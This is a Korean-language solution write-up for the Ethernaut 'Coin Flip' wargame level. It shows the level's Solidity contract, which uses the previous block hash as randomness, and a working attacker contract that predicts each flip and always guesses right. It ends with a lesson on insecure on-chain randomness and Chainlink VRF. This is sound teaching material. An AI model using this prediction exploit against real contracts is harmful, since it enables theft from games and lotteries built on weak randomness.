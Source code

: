 # 3. Coin Flip

## Problem
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help

- See the Help page above, section "Beyond the console"

### Sources
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Solution
본격적으로 문제의 난이도가 상승하고 있다. 이 문제를 처음 봤다면 감이 정말 하나도 안올 수 있다. 단순히 계산해서 0.5의 확률로 10번을 연속으로 때려 맞추라는 의미인데, 이는 0.5^10 ~= 0.1% 의 확률을 뚫으라는 말과 다름이 없다.

즉, 이 문제는 이렇게 접근해서는 해결할 수 없다.

이 문제의 힌트는 "Beyond the console"이라는 문구에 있다. Ethernaut의 문서를 살펴보면, Remix에 가서 이러저러하게 해보세요라고 친절하게 설명하고 있다.
그런데 Remix에서 무엇을 하라는 의미일까?

다시 문제로 돌아가서, 그냥 때려 맞춰서 문제를 푸는것은 불가능에 가까우니 다른 방법을 찾아야 한다. 
그렇다면, 때려 맞추는것이 아니라, 결과를 미리 예측할 수 있어야 한다가 된다.

그런데 어떻게 결과를 예측할 수 있는가? 
핵심은 문제의 소스 컨트랙트에서 예측의 승패를 판정하는 방식에 있다. 순서대로 살펴보자.

1. 바로 직전의 블록 해시를 가져온다.
2. 블록이 진행되지 않은 경우 트랜잭션 실행을 취소(revert)한다.
3. 블록 해시를 FACTOR로 나눈 후, 1과 비교하여 true or false 값을 얻는다.
4. 3번의 boolean 값과 함수의 인자로 주어진 값을 비교하여 승패를 판정한다.


*잠깐, 여기서 FACTOR의 숫자는 무엇을 의미하는가?
`57896044618658097711785492504343953926634992332820282019728792003956564819968`라는 값은 솔리디티의 uint256 타입이 표현할 수 있는 수치의 대략 절반보다 아주 살짝 크다. 참고로 uint256 타입의 최대값은 `115792089237316195423570985008687907853269984665640564039457584007913129639935`이다. 따라서 uint256 타입의 블록해시 값에 FACTOR를 나눈다는 의미는, 그 결과값이 0 또는 1이 된다는 의미이다.*

여기서 핵심은 3번과 4번에 있다. 3번 값을 계산한 후 미리 그 결과를 예측한 후 정답만 컨트랙트에 제출할 수 있다면? 그게 10번이건 100번이건 항상 정답을 맞출 수 있다. 바로 코드를 작성해보자.

### Code
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract HackCoinFlip {
  using SafeMath for uint256;

  CoinFlip public coinFilpContract = CoinFlip(0x39Bb5CDA2CCcAA0BD07208251e98eA2C357c76A9); // Use your instance address
  uint256 public constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function hack() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coinFilpContract.flip(side);
  }
}


contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
해답은 아주 단순하다. 문제에서 제시된 컨트랙트와 동일하게 정답을 계산하는 코드를 작성한 후, 이를 통해 정답만 이용하여 문제의 컨트랙트를 호출하면 된다.


## Review
이 스테이지의 의도는 컨트랙트를 개발할 때, 난수를 생성하는것이 얼마나 어려운지를 시사하고자 하는데 있다. 크립토 개발을 하다보면 랜덤성을 활용해야 할 때가 종종 있다. 

예를 들어, NFT에 랜덤박스와 같은 기능을 적용하고 싶을 수 있다. 하지만, 이 때 이 문제의 코드와 같이 예측가능하거나 통제 가능한 난수 생성 방식을 사용하게 된다면, 이는 곧 중대한 취약점이 된다. 
스마트 컨트랙트의 모든 것들은 사실상 모두에게 공개되어 있으며, 이는 심지어 지역 변수와 private 상태 변수들도 해당한다. 더군다나 블록체인의 마이너는 블록 해시, 타임스탬프 혹은 특정 트랜잭션의 포함 여부까지 거의 모든것들을 통제할 수 있기 때문에, 얼마든지 이를 악용할 수 있다. 

그렇다면 컨트랙트에서는 난수를 전혀 활용할 수 없는가? 그렇지는 않다. 현 시점에서 베스트 프랙티스는 체인링크의 VRF를 사용하는 것이다. VRF는 Verifiable Random Function의 준말로, 쉽게 말해 온체인 컨트랙트에서 검증 가능한 난수를 생성하는 것을 의미한다. 온체인 랜덤니스와 VRF에 관련된 내용들은 워낙 중요한 주제이니만큼, 따로 다른 글에서 다뤄보도록 하자.